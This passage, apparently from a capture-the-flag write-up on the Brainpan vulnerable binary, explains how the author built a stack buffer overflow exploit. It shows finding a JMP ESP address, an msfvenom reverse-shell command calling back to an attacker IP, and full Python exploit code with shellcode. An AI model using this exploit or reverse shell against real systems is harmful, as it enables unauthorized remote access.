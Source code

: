 ```
root@system:~# /usr/share/framework2/msfpescan -f /root/Downloads/brainpan.exe -j esp
0x311712f3   jmp esp
```

There she is, at address `0x311712f3`.  NOW we have everything we need for a reliable exploit.  I'm going to use `msfvenom` here to generate
the exploit shellcode in python format using the Linux reverse shell payload (our host is Linux, even though the binary is Windows).

```bash
msfvenom -a x86 -p linux/x86/shell_reverse_tcp -b \x00 -e x86/call4_dword_xor -f python LHOST=192.168.56.1 
```

Our overflow relies on our payload not containing a null character (0x00).  `strcpy` relies on the presence of a null terminator
to end the copy, so having one inside our payload will end our overflow prematurely.  I have used the `x86/call4_dword_xor` encoder to rectify 
this.

Here is the final Python exploit code that was created.  The first 524 bytes are padded with x86 NOP instructions, followed by our return address for our JMP ESP function then finally our shellcode.  
 
```python
import socket


def to_bytes(n, length, endianess='little'):
    h = '%x' % n
    s = ('0'*(len(h) % 2) + h).zfill(length*2).decode('hex')
    return s if endianess == 'big' else s[::-1]


buf = ""
buf += "\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += "\x76\x0e\xa3\x5a\xf1\x1c\x83\xee\xfc\xe2\xf4\x92\x81"
buf += "\x06\xff\xf0\x19\xa2\x76\xa1\xd3\x10\xac\xc5\x97\x71"
buf += "\x8f\xfa\xea\xce\xd1\x23\x13\x88\xe5\xcb\x9a\x59\x24"
buf += "\xa2\x32\xf3\x1c\xb2\x06\x78\xfd\x13\x3c\xa1\x4d\xf0"
buf += "\xe9\xf2\x95\x42\x97\x71\x4e\xcb\x34\xde\x6f\xcb\x32"
buf += "\xde\x33\xc1\x33\x78\xff\xf1\x09\x78\xfd\x13\x51\x3c"
buf += "\x9c"

return_address = long(0x311712f3)
return_address_offset = 524

shell_code = bytearray(b'\x90' * 524) + \
             bytearray(to_bytes(return_address, 4)) + \
             buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 9999))

total = s.send(shell_code)
print("Sent: " + str(total))
```

